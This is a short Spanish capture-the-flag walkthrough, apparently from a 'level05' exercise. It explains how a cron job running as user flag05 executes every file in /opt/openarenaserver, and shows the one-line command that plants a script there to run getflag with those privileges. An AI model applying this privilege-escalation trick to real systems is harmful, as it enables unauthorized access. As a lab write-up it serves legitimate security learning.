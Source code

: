 # Cronjob Exploit

Al iniciar ha llegado un email, para ver el email hay que ver los archivos de la carpeta /var/email dentro hay un archivo que es level05 al hacer el cat te pone esto:
`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

Por lo tanto vemos que es un cronjob y se ejecuta un archivo conm los permisos de flag05 cada 2 minutos.

Si vemos el contenido de ese archivo:
```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
El codigo significa que va a ejecutar todo archivo que este en esa carpeta y luego lo borra.
Creamos un archivo con el siguiente contenido:
`echo "/bin/getflag > /tmp/my_file" > /opt/openarenaserver/my_file`

Esperamos dos minutos y se ejecuta con los permisos de flag05 y lo guarda el resultado en el archivo de redireccion que hemos puesto.
